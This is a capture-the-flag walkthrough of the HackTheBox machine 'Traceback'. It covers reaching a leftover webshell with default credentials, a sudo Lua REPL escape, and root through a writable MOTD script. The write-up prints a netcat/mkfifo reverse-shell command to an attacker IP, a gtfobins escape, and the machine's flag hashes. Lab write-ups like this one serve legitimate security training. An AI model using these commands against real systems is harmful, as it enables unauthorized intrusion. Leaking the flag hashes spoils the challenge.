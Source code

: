 # Summary
- User: left-over webshell and luvit (lua repl) escape
- Root: writable MOTD script executed by root whenever user logs on

# Details
### User: c8807f92936887bec15c899190c52fa6
- Nmap scan reveals ports 22 and 80 are open
- website on port 80 reveals that it has been hacked and defaced
- HTML comment on the site says `Some of the best web shells that you might need ;)`
- Googling comment leads to a Github repository with a list of webshells
    - https://github.com/TheBinitGhimire/Web-Shells
- appending name of each webshell to the site URL eventually leads to `http://traceback.htb/smevk.php` which returns a webshell login page
- default login of `username: admin` and `password: admin` (listed in webshell sourceode on Github) gives webshell access
- webshell gives access as user `webadmin`, allowing the addition of an SSH public key to `/home/webadmin/.ssh/authorized_keys`
- SSHing in shows `note.txt` in the home directory, with a note from `sysadmin` about a "tool to practice lua"
- home directory also contains `.luvit_history` file
- `sudo -l` reveals `webadmin` can run `/home/sysadmin/luvit` as `sysadmin`
- executing `sudo -u sysadmin /home/sysadmin/luvit` spawns a lua repl that can be escaped with `os.execute("/bin/sh")`, giving shell access as `sysadmin` and allowing the user flag to be read
    - https://gtfobins.github.io/gtfobins/lua/

### Root: 9b62e17b71d30d301e9dc5b9ec359afc
- can now add SSH key to `/home/sysadmin/.ssh/authorized_keys` to allow direct access as `sysadmin` or run `/bin/bash` to upgrade to bash shell
- `pspy64` shows a cronjob routinely copies files from `/var/backups/.update-motd.d` to `/etc/update-motd.d`
- `/etc/update-motd.d` holds scripts that are executed by `root` when a user logs in, which can be seen by monitoring `pspy64` during SSH log in
- `sysadmin` has write access to `/etc/update-motd.d` (due to `admins` group rights) and can add a reverse shell command to one of the motd scripts to be executed by `root` on log in
- add `rm -f /tmp/neko; mkfifo /tmp/neko; nc 10.10.14.41 9405 0</tmp/neko | /bin/bash -i 2>&1 | tee /tmp/neko` to `/etc/update-motd.d/80-esm`, setup a reverse listener on local machine with `nc -lvp 9405`, and then trigger the script by SSHing into the target to achieve root access
    - reverse shell works with BSD version of netcat that doesn't provide an option to execute a program on connection
